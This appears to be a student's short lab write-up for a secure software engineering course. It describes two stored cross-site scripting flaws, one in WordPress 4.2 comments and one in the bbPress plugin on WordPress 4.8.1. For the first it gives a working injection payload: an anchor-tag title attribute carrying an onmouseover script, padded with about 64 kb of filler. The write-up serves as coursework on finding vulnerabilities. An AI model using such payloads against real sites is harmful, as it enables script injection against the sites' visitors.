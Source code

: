 # Codepath
Secure Software Engineering
WEEK 7
Vunerability 1:
Stored XXS Vunerability 
Wordpress version: 4.2
Inject java script into the comments and the script is triggered when the comment is viewed. <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
Vunerability 2:
WordPress 4.8.1
plugin: bbpress
Inject javascript as any user that can publish a post and then when another user previews or clicks on the post a popup where the malicious code could go is. 


